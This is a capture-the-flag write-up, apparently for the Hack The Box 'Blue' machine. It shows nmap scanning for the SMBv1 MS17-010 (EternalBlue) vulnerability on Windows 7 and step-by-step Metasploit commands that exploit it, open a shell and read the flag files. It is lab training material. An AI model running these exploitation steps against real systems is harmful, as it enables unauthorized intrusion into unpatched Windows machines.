



## Synopsis


## :scroll: TL:DR :scroll:
Get **Privilege Escalation** on a **windows 7 Porfessional 7601 Service Pack 1 computer**.
Therfore find exploit `ms17-010` and run it. 
Take control over the windows computer and find user- en rootflag.
 
## :rocket: Getting started :rocket:
We add the `domain` and `ip` to `/etc/hosts` .
After we spawn a machine we get an ip adress.

	This ip adress we can add to our `/etc/hosts` file:
```
echo "10.129.231.168 blue.htb" | sudo tee -a /etc/hosts
```
## :scan: Enumeration :scan:
As we start with a `nmap` scan 
```hs
nmap -sV -sC -oA blue blue.htb
```




```sh
nmap --script smb-vuln-ms17-010 -p445 blue.htb
```

it revails a vulnerability called `ms17-010` in Microsoft `SMBv1` accorring to **CVE-2017-0143**. 
### msfconsole
With `msfconsole` we can search for an exploit.

```sh


## Expliotation


1. type `msfconsole` to start metasploit;
2. `search ms17-010`;
3. `use 0`;
4. `show options` gives the options for configuration;
5. `set RHOSTS blue.htb`
6. `set LHOSTS 10.10....`
7. `expliot`
8. `shell`
9. `whoami`
10. `cd \Users\Administrator\Desktop`
11. `type root.txt`

## :old_key:NOTES:old_key:

### :mortar_board: Lessons learned :mortar_board:
1. How to use `msfconsole`;
2. How to explicit scan with `nmap` for a vulnerability scan;
3. Windows does not support linux syntax :nerd:
